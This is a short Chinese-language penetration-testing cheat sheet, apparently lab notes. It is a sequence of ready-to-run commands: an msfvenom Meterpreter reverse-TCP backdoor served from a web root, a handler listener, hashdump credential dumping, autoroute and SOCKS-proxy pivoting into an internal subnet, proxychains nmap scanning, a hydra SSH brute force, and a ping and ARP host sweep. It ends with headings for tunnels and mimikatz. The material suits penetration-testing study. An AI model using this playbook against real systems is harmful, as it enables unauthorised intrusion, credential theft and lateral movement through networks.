

拓扑图生成metasploit后门

```bash
msfvenom  -p windows/meterpreter/reverse_tcp lhost=192.168.31.150  lport=12345 -f exe >/var/www/html/s.exe
```

kali监听

```bash
use exploit/multi/handler
set payload  windows/meterpreter/reverse_tcp
set lhost 192.168.31.150
set lport 12345
exploit
```

查看当前用户

```bash
getuid
```

获取网卡信息

```bash
ifconfig
```

路由信息

```bash
run get_local_subnets
```

增加路由

```bash
run autoroute  -s 10.10.10.0/24
background
```

清空路由

```
run autoroute -p
```

配置代理socks4

```bash
use auxiliary/server/socks_proxy
set SRVPORT 1080
set VERSION   4a
run
```

修改/etc/prxoychains.conf

```bash
socks4  127.0.0.1 1080
```

扫描端口服务

```bash
proxychains nmap -Pn -sT 10.10.10.128
```

破解端口服务l

```bash
proxychains hydra -l root -P ~/pentest/top100password.txt ssh://10.10.10.128 -V
```

hash收集、hash传递

```bash
run hashdump
```

内网存活机子

```bash
for /l %i in (1,1,255) do @ping 192.168.31.%i -w 1 -n 1 | find /i "ttl"
```

metasploit的主机发现模块

```bash
use auxiliary/scanner/discovery/arp_sweep
```

端口收集

端口映射

反向隧道

密码收集	mimikatz